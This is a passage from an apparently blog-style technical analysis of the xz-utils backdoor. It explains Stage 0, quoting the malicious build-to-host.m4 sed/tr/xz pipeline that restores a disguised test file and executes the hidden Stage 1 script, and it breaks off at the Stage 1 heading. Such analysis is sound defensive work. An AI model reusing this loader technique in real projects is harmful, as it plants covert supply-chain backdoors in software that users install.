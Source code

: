Please also note that the obfuscated/encrypted stages and later binary backdoor are hidden in two test files: tests/files/bad-3-corrupt\_lzma2.xz and tests/files/good-large\_compressed.lzma.

[Stage 0](#stage0)
------------------

As pointed out by Andres, things start in the [m4/build-to-host.m4](https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63) file. Here are the relevant pieces of code:

`... gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null' ... gl_path_map='tr "\t \-_" " \t_\-"' ...`

This code, which I believe is run somewhere during the build process, extracts Stage 1 script. Here's an overview:

1.  Bytes from tests/files/bad-3-corrupt\_lzma2.xz are read from the file and outputted to standard output / input of the next step – this chaining of steps is pretty typical throughout the whole process. After everything is read a newline (\\n) is added as well.
2.  The second step is to run tr (translate, as in "map characters to other characters", or "substitute characters to target characters"), which basically changes selected characters (or byte values) to other characters (other byte values). Let's work through a few features and examples, as this will be imporant later.
    
    The most basic use looks like this: `echo "BASH" | tr "ABCD" "1234" 21SH` What happend here is "A" being mapped to (translated to) "1", "B" to "2", and so on.
    
    Instead of characters we can also specify ranges of characters. In our initial example we would just change "ABCD" to "A-D", and do the same with the target character set: "1-4": `echo "BASH" | tr "A-D" "1-4" 21SH`  
    Similarly, instead of specyfing characters, we can specify their ASCII codes... in octal. So "A-D" could be changed to "\\101-\\104", and "1-4" could become "\\061-\\064". `echo "BASH" | tr "\101-\104" "\061-\064" 21SH`  
    This can also be mixed - e.g. "ABCD1-9\\111-\\115" would create a set of A, B, C, D, then numbers from 1 to 9, and then letters I (octal code 111), J, K, L, M (octal code 115). This is true both for the input characters set and the target character set.
    
    Going back to the code, we have tr "\\t \\-\_" " \\t\_\\-", which does the following substitution in bytes streamed from the tests/files/bad-3-corrupt\_lzma2.xz file:
    
    *   0x09 (\\t) are replaced with 0x20,
    *   0x20 (whitespace) are replaced with 0x09,
    *   0x2d (\-) are replaced with 0x5f,
    *   0x5f (\_) are replaced with 0x2d,
    
    This actually "uncorrupts" the bad-3-corrupt\_lzma2.xz, which forms a proper xz stream again.
3.  In the last step of this stage the fixed xz byte stream is extracted with errors being ignored (the stream seems to be truncated, but that doesn't matter as the whole meaningful output has already been written out). The outcome of this is the Stage 1 script, which is promptly executed.

[Stage 1](#stage1)
------------------

In Andres' email that's the bash file starting with "####Hello####", which is pretty short, so let's present it here with differences between 5.6.0 and 5.6.1 marked with black background.
